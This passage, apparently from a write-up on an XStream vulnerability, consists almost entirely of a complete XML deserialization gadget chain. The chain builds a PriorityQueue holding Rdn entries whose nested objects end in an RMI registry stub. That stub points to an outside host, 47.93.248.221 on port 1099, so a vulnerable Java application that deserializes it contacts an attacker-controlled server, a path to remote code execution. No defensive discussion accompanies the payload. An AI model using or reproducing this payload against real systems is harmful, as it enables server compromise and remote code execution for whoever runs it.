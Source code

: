 ![QQ_1732794261644](images/4.png)

```
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>47.93.248.221</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>47.93.248.221</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
```